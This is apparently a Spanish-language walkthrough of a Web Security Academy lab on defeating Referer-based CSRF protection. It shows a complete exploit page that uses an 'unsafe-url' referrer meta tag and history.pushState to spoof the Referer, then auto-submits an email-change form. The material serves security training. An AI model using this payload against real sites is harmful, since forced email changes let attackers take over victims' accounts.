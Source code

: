 Nos salta error si enviamos distinta URL por lo que voy a intentar añadir un parámetro GET después de lo que se espera.

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Según la documentación de Mozilla, **podemos usar la función de JavaScript `history.pushState()` para manipular la URL mostrada sin recargar la página**.

Hay que tener en cuenta que en muchos navegadores **eliminan la cadena de consulta del Referer por defecto como medida de seguridad**.

Para **evitar esa limitación**, **podemos agregar una nueva etiqueta `<meta>`** para **anular ese comportamiento** y asegurarnos de que **la URL completa se incluya en la solicitud**.

```
<html>
    <head>
        <meta name="referrer" content="unsafe-url">
        <title>CSRF</title>
    </head>
    <body>
        <form action="https://0ac9005e04c5dc3181cded9100f3002c.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="prueba@prueba.com">
        </form>

        <script>
            history.pushState('', '', '/?0ac9005e04c5dc3181cded9100f3002c.web-security-academy.net')
            document.forms[0].submit();
        </script>
    </body>
</html>
```